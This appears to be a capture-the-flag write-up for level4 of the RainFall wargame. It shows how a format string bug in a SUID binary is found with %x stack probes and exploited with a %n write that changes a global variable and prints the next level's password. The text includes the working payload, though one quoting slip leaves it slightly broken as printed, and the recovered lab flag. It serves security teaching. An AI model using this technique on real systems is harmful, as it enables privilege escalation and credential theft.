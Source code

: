 # Level 4 Walkthrough

## Who am I?

```bash
level4@RainFall:~$ id
uid=2025(level4) gid=2025(level4) groups=2025(level4),100(users)
```

## Where am I?

```bash
level4@RainFall:~$ ll
total 17
-rwsr-s---+ 1 level5 users  5252 Mar  6  2016 level4*
```

We are in possession of a SUID binary owned by `level5`. Our objective is to exploit this binary to execute a command as `level5` and retrieve the contents of the `.pass` file.

---

## Program Behavior

Running the binary:

```bash
level4@RainFall:~$ ./level4
hello
hello
```

No crash, even when injecting long strings:

```bash
level4@RainFall:~$ python -c "print('A'*200)" | ./level4
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

This suggests the program uses `fgets()`, which safely limits input size.

---

## Decompiled Structure (via Ghidra)

```c
// main.c
void main(void) {
    n();
    return;
}

// n.c
void n(void) {
    char buffer[520];
    fgets(buffer, 0x200, stdin);
    p(buffer);
    if (m == 0x1025544) {
        system("/bin/cat /home/user/level5/.pass");
    }
    return;
}

// p.c
void p(char *param) {
    printf(param);
    return;
}
```

The structure is very similar to level3. The main difference is that `printf()` is now called via an intermediate function `p(char *)` instead of directly in the main function.

---

## Format String Vulnerability

Because `printf(param)` is called with user-controlled input and without a format string, it introduces a **format string vulnerability**.

We can attempt to inspect the stack layout with:

```bash
python -c 'print "AAAA %x %x %x %x %x %x %x %x %x %x"' | ./level4
AAAA b7ff26b0 bffff794 b7fd0ff4 0 0 bffff758 804848d bffff550 200 b7fd1ac0
```

No sign of `0x41414141` (`AAAA`) appears, so we continue probing:

```bash
python -c 'print "AAAA" + " %x" * 15' | ./level4
AAAA b7ff26b0 bffff794 b7fd0ff4 0 0 bffff758 804848d bffff550 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825 78252078
```

We find `0x41414141` ("AAAA") at the **12th** stack position. This is exactly the same approach used in level3, where the injected marker allowed us to find the correct offset to use in our `%n` format string attack.

---

## Exploitation Strategy

### Step 1: Find offset on the stack

We inject 10 %x to see where our input lands:

```bash
python -c 'print "AAAA %x %x %x %x %x %x %x %x %x %x"' | ./level4
```

No sign of `41414141` yet. We continue:

```bash
python -c 'print "AAAA" + " %x" * 15' | ./level4
```

We observe `41414141` (AAAA) at the **12th** position on the stack. Therefore, we will use `%12$n` to write to the address placed as the 12th argument.

### Step 2: Inject address of m on the stack

From disassembly, we see:

```asm
0x0804848d <+54>:    mov    0x8049810,%eax
0x08048492 <+59>:    cmp    $0x1025544,%eax
```

We confirm that the value compared is stored at memory address `0x08049810`, and the target value is `0x1025544` (16930116 in decimal).

We now test placing this address directly in our input to observe its position:

```bash
level4@RainFall:~$ python -c 'print "\x10\x98\x04\x08 %x %x %x %x %x %x %x %x %x %x %x %x"' | ./lev
el4
 b7ff26b0 bffff794 b7fd0ff4 0 0 bffff758 804848d bffff550 200 b7fd1ac0 b7ff37d0 8049810
```

We observe that `0x08049810` appears at the **12th** position on the stack. As in level3, we must format our payload accordingly, using `%12$n` to target the correct argument.

### Step 3: Craft final payload

To exploit the vulnerability, we needed to:

* Identify the address to overwrite: `0x08049810`, found from disassembly.
* Determine the value to write: `0x1025544` (16930116 in decimal) to satisfy the condition: `if (m == 0x1025544)`.
* Discover that our input appears at the 12th position on the stack, using `%x` probes.
* Confirm that the user input is passed to `printf()` without format validation.

To write the desired value using `%n`, we must ensure that exactly `16930116` characters are printed before reaching `%12$n`. This is accomplished using `%16930112d`, as the first 4 bytes (the address) are already printed.

To understand `%n`, recall this example:

```c
int written = 0;
printf("Hello world!%n", &written);
```

After executing, `written == 12` because 12 characters were printed.

### Step 4: Build and launch the payload

```bash
level4@RainFall:~$ python -c 'print "\x10\x98\x04\x08 + "%16930112d" + "%12$n"' > /tmp/exploit
level4@RainFall:~$ cat /tmp/exploit | ./level4
            -1208015184
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

As seen above, the program directly outputs the contents of the `.pass` file. This is because, upon successful comparison, the function `n()` executes the following instruction:

```c
system("/bin/cat /home/user/level5/.pass");
```

There is no need to maintain input open as in level3, the command is self-contained and prints the result immediately.

Now use the retrieved flag to switch to the next user:

```bash
level4@RainFall:~$ su level5
Password:
```

Once logged in, we confirm access:

```bash
level5@RainFall:~$ id
uid=2026(level5) gid=2026(level5) groups=2026(level5)
```

Success.

---

## Files in this repository

* `flag.txt` : file containing the retrieved flag
* `asm_analysis.md` : GDB analysis of the binary
* `decompiled_level4/` : folder containing the reconstructed C code from Ghidra

